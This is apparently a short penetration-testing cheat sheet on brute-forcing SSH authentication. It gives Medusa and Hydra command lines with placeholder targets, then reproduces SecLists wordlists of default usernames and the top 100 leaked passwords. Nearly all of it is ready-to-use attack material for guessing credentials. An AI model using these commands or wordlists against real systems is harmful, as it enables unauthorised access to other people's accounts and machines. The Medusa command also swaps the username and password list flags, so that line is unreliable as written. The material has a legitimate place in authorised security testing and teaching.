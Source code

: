 # Authentication bruteforcing

## Medusa

```bash
medusa -h RHOST -M ssh -U PASSWORDS -P USERNAMES
```

## Hydra

```bash
hydra -L USERNAMES -P PASSWORDS SSH://TARGET -T 64
```

## Default credentials

SecLists/Usernames/top-usernames-shortlist.txt
```
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
```

SecLists/Passwords/darkweb2017-top100.txt
```
123456
123456789
111111
password
qwerty
abc123
12345678
password1
1234567
123123
1234567890
000000
12345
iloveyou
1q2w3e4r5t
1234
123456a
qwertyuiop
monkey
123321
dragon
654321
666666
123
myspace1
a123456
121212
1qaz2wsx
123qwe
123abc
tinkle
target123
gwerty
1g2w3e4r
gwerty123
zag12wsx
7777777
qwerty1
1q2w3e4r
987654321
222222
qwe123
qwerty123
zxcvbnm
555555
112233
fuckyou
asdfghjkl
12345a
123123123
1q2w3e
qazwsx
computer
aaaaaa
159753
iloveyou1
fuckyou1
princess
789456123
11111111
123654
princess1
888888
linkedin
michael
sunshine
football
11111
777777
1234qwer
999999
j38ifUbn
monkey1
football1
daniel
azerty
a12345
123456789a
789456
asdfgh
love123
abcd1234
jordan23
88888888
5201314
12qwaszx
FQRG7CS493
ashley
asdf
asd123
superman
jessica
love
samsung
shadow
blink182
333333
michael1
babygirl1
```
